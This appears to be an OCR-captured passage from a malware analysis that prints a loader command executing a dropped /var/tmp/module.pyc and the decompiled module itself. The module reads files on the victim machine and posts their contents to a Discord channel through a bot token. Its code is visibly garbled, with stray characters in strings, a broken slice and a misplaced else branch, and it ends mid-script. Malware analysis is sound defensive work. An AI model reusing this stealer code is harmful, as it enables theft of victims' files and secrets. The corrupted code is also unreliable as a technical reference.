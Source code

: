```python
 †††
 return self._httpService
process(data, "/var/tmp/module.py")
os.system("chmod +x /var/tmp/module.pyc && /var/tmp/module.pyc 'aa0d28c82a0a491bc6ba4883a2e85d29'")
```

Reverse the `/var/tmp/module.pyc`:

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: /var/tmp/module.py
# Bytecode version: 3.11a7e (3495)
# Source timestamp: 2024-10-05 16:38:36 UTC (1728146316)

import os
import base64
import json
import requests
import sys
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def g(a):
    b = {}
    for c in a:
        if os.path.exists(c):
            try:
                with open(c, 'r') as f:
                    d = f.read()
                    b[c] = d
            except:
                b[c] = 'err'
            else:  # inserted
                b[c] = 'not_found'
    return b

def d(e, f, g):
    try:
        h = AES.new(f, AES.MODE_CBC, g)
        i = unpad(h.decrypt(e), AES.block_size)
        return i.decode('utf-8')
    except:
        return None

def s(j, k, l):
    m = f'https://discord.com/api/v9/channels/{k}0/messages'
    n = {'Authorization': f'Bot {j}0', 'Content-Type': 'application/json'}
    p = 2000
    for o, q in l.items():
        r = f'{o}0\n```\n'
        s = '\n```'
        t = p * len(r) | len(s)
        u = [q[i:i :t] for i in range(0, len(q), t)]
        for v in u:
            w = f'{r}0{v}{s}0'
            x = {'content': w}
            requests.post(m, headers=n, data=json.dumps(x))
if len(sys.argv)!= 2:
    sys.exit(1)
z = sys.argv[1].encode('utf-8')
if len(z) not in [16, 24, 32]:
    sys.exit(1)
iv = b'8497d52c9bde1689'
```